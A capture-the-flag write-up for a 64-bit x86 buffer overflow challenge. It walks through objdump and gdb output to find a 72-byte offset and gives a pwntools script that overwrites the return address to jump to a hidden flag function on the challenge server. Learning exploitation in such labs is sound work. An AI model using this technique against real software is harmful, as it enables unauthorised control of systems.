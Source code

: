 # **X-Sixty-What - 200 pts**

### Key points

- 64-bit x84 structure
- Buffer overflow

---

## **Contents**

- [Overview](#overview)
- [Solution](#solution)
- [Flag](#flag)

---

## Overview

### Description

> Most problems before this are 32-bit x86. Now we'll consider 64-bit x86 which is a little different! Overflow the buffer and change the return address to the flag function in this program.

---

## Solution

The source code is much like the other buffer overflow challenges. We have a `vuln()` function that takes user input using `gets()`. A function `flag()` reads and prints the flag, but it is never called. We just have to overwrite the return address of `vuln()` to the address of `flag()`.

Use a decompiler/disassembler. I will use objdump.

```console
$ objdump -d vuln > vuln.txt
$ cat vuln.txt
...
00000000004012b2 <vuln>:
  4012b2: f3 0f 1e fa     endbr64
  4012b6: 55              push   %rbp
  4012b7: 48 89 e5        mov    %rsp,%rbp
  4012ba: 48 83 ec 40     sub    $0x40,%rsp
  4012be: 48 8d 45 c0     lea    -0x40(%rbp),%rax
  4012c2: 48 89 c7        mov    %rax,%rdi
  4012c5: b8 00 00 00 00  mov    $0x0,%eax
  4012ca: e8 31 fe ff ff  callq  401100 <gets@plt>
  4012cf: 90              nop
  4012d0: c9              leaveq
  4012d1: c3              retq
...
```

The return address of `vuln()` is `0x4012d1`. Open gdb and set a breakpoint there:

...

the `rsp` register points to the return address, so that's what we need to overflow.

Let's find the offset of `rsp`. The buffer size is 64 bytes, so we'll enter a little more than 64.

```console
$ gdb vuln
gef>  r
Starting program: /var/www/CanHack/vuln
Welcome to 64-bit. Give me a string that gets you the flag:
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaabbbbccccddddeeeeffffgggg

Program received signal SIGSEGV, Segmentation fault.
...
$rsp   : 0x007fffffffe318  →  "ddddeeeeffffgggg"
...
```

`rsp` has been overwritten to `ddddeeeeffffgggg`.The offset turns out to be 72, so our payload will be 72 bytes + address of `flag()`.

```console
0000000000401236 <flag>:
  401236:       f3 0f 1e fa             endbr64
  40123a:       55                      push   %rbp
  40123b:       48 89 e5                mov    %rsp,%rbp
  40123e:       48 83 ec 50             sub    $0x50,%rsp
```

The second hint suggests we jump to the instruction after the first `push`, so that will be the `mov` instruction at 0x40123b.

---

### The Script

```py
from pwn import *

payload = b"a"*72 + p64(0x40123b)

r = remote("saturn.picoctf.net", "60289")
r.sendline(payload)
result = r.recvall()
FLAG = result[result.index("pico"):result.index("}") + 1]
print("Flag:", FLAG)
```

---

## Flag

> `picoCTF{}`
